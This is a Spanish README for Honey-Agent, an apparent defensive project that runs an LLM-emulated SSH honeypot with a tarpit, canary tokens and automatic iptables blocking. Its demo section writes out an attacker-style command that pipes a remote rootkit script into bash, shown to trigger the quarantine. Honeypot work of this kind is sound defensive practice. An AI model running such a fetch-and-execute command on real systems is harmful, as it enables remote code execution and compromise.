

# **Honey-Agent: Agente Defensivo Tarpit con Contra-Inteligencia en Memoria**

> **Defensa Activa, Decepción Cognitiva con Modelos de Lenguaje y Aislamiento Perimetral Autónomo a Nivel de Kernel**

[](https://www.python.org/)
[]()
[]()
[]()
[]()

---

## **Visión General del Proyecto**

La asimetría de la ciberseguridad moderna favorece sistemáticamente al atacante: solo necesita identificar un único vector vulnerable, mientras que el Centro de Operaciones de Seguridad (SOC) debe blindar la totalidad de la superficie de ataque. Las defensas perimetrales convencionales (IDS/IPS/WAF) operan bajo un esquema reactivo y binario (permitir o bloquear), entregando retroalimentación inmediata y gratuita al adversario.

**Honey-Agent** invierte radicalmente esta dinámica:
1. **Atrae** a los intrusos hacia un señuelo de alta interacción ejecutado **100% en memoria volátil (RAM)**.
2. **Emula** una terminal Linux corporativa completa (POSIX GNU Coreutils) mediante Modelos de Lenguaje Grande (LLMs).
3. **Retiene** al adversario mediante un **Tarpit Cognitivo** con retardos probabilísticos adaptativos que multiplican hasta por 12 su tiempo de permanencia sin levantar sospechas.
4. **Inocula Contra-Inteligencia** mediante *Canary Tokens* firmados criptográficamente (claves AWS, bases de datos y claves SSH falsas).
5. **Mitiga de forma Autónoma** ejecutando reglas de bloqueo inmediato en el kernel Linux (`iptables -I INPUT -s <IP> -j DROP`) en menos de 5 milisegundos cuando se detectan técnicas críticas de la matriz **MITRE ATT&CK**.



---

## **Pilares Tecnológicos Diferenciales**

| Capacidad | Honeypots Clásicos (Cowrie) | Sandboxes Reales | **Honey-Agent** |
| :--- | :--- | :--- | :--- |
| **Interactividad** | Rígida (comandos fijos) | Total (sistema operativo real) | **Total y Dinámica (LLM POSIX en RAM)** |
| **Riesgo de Escape** | Bajo | Alto (riesgo de pivote o escape de VM) | **Nulo por construcción (Cero disco/kernel)** |
| **Retención del Intruso** | Nula o fija | Nula | **Tarpit Cognitivo Probabilístico Adaptativo** |
| **Contra-Inteligencia** | No disponible | Compleja de inocular | **Canary Tokens contextuales con firma HMAC** |
| **Respuesta Activa** | Pasiva (solo logs) | Dependiente de SOAR externo | **Aislamiento perimetral autónomo con Netfilter** |

---

## **Estructura Documental del Repositorio**

La documentación técnica exhaustiva del sistema se organiza de forma modular en el directorio [`docs/`](file:///C:/Security_IA/docs/README.md):

* 📘 [**01. Propuesta Técnica y Ejecutiva**](file:///C:/Security_IA/docs/01_Propuesta_Tecnica_Honey_Agent.md): Justificación estratégica, propuesta de valor y visión general del proyecto.
* 🏗️ [**02. Arquitectura Técnica y Diseño Detallado (TDD)**](file:///C:/Security_IA/docs/02_Arquitectura_Tecnica_y_Diseno_del_Sistema.md): Descomposición en 8 capas, modelo en memoria VFS, modelo matemático del Tarpit y análisis STRIDE.
* 🚀 [**03. Guía de Instalación, Despliegue y Operación**](file:///C:/Security_IA/docs/03_Guia_de_Instalacion_Despliegue_y_Operacion.md): Reubicación del SSH host, despliegue con Docker Compose, systemd y manual de configuración.
* 🎯 [**04. Matriz MITRE ATT&CK y Motor Heurístico**](file:///C:/Security_IA/docs/04_Matriz_MITRE_ATTACK_y_Motor_Heuristico.md): Mapeo táctico, base de reglas regex, algoritmo dinámico de Threat Score y exportación STIX 2.1.
* 🛡️ [**05. Ingeniería de Prompts y Seguridad Adversaria**](file:///C:/Security_IA/docs/05_Ingenieria_de_Prompts_y_Seguridad_Adversaria.md): Master System Prompt, defensas anti-jailbreak multi-capa y fábrica de Canary Tokens.
* 🔌 [**06. Especificación de API y Modelos de Datos**](file:///C:/Security_IA/docs/06_Especificacion_de_API_y_Modelos_de_Datos.md): Endpoints REST OpenAPI 3.1, WebSocket streaming y esquemas JSON tipados.
* 🧪 [**07. Playbook de Pruebas y Simulación Red Team**](file:///C:/Security_IA/docs/07_Playbook_de_Pruebas_y_Simulacion_Red_Team.md): Suite de pruebas automatizadas en Python, validación de fidelidad y matriz Go/No-Go.
* 🎤 [**08. Pitch Deck, Guión Demo y Defensa Técnica**](file:///C:/Security_IA/docs/08_Pitch_Deck_Guion_Demo_y_Defensa_Tecnica.md): Pitch ejecutivo (30s, 3 min), coreografía paso a paso para la demo en vivo y respuestas a jurado.
* 🛠️ [**09. Plan de Implementación en 4 Fases**](file:///C:/Security_IA/docs/09_Plan_de_Implementacion_y_Construccion_en_4_Fases.md): Hoja de ruta de desarrollo de software dividida en 4 partes modulares e incrementales.
* 👥 [**10. Reparto entre 4 Programadores**](file:///C:/Security_IA/docs/10_Reparto_de_Trabajo_4_Programadores.md): Dueño de cada carpeta y archivo, regla de imports y criterio de cierre para trabajar en paralelo.
* 🧭 [**Índice Maestro de Documentación (Hub)**](file:///C:/Security_IA/docs/README.md): Rutas de lectura personalizadas según el rol (Jurado, CISO, DevOps, Red Team).

---

## **Inicio Rápido (Quickstart)**

### **1. Reubicar el SSH Real y Configurar el Host**
```bash
# Cambiar SSH real al puerto 22222 para liberar el puerto 22
sudo sed -i 's/^#*Port 22/Port 22222/' /etc/ssh/sshd_config
sudo systemctl restart ssh
```

### **2. Despliegue con Docker Compose**
```bash
# Clonar y acceder
git clone https://github.com/tu-organizacion/honey-agent.git
cd honey-agent

# Configurar variables de entorno (proveedor de LLM)
cp .env.example .env
nano .env # Establecer GEMINI_API_KEY o backend local Ollama

# Iniciar servicios con capacidades de red de kernel
docker compose up -d
```

### **3. Acceso a las Interfaces**
* **SSH Decoy (Señuelo Atacante):** `ssh root@<IP_SERVIDOR> -p 22` (acepta credenciales de prueba `root:toor`).
* **SOC Dashboard en Vivo:** `http://<IP_SERVIDOR>:8501` (panel Streamlit interactivo en tiempo real).
* **REST API & OpenAPI Docs:** `http://<IP_SERVIDOR>:8000/docs`.

---

## **Demostración Rápida de Capacidades (Kali Linux vs Honey-Agent)**

1. **Escaneo de Puertos:**
   ```bash
   nmap -p 22 -sV 192.168.1.100
   # Reporta: OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
   ```
2. **Acceso y Exploración en Memoria:**
   ```bash
   ssh root@192.168.1.100
   whoami     # Responde: root (<50ms)
   uname -a   # Responde: Linux prod-srv-app01 5.15.0-101-generic
   ```
3. **Inoculación de Canary Token:**
   ```bash
   cat /var/www/html/.env
   # Retorna variables sintéticas con AWS_ACCESS_KEY_ID firmada
   ```
4. **Activación de Cuarentena Automática:**
   ```bash
   curl -s http://192.168.1.200/rootkit.sh | bash
   # El comando se congela; iptables descarta la IP en <5ms
   # El SOC Dashboard registra: STATUS = CONTAINED & BLOCKED
   ```

---

## **Licencia y Atribución**

Desarrollado bajo licencia **MIT**. Diseñado para el Track de Defensa con Inteligencia Artificial.
Para consultas y contribuciones, consulte las directivas en [`docs/README.md`](file:///C:/Security_IA/docs/README.md).

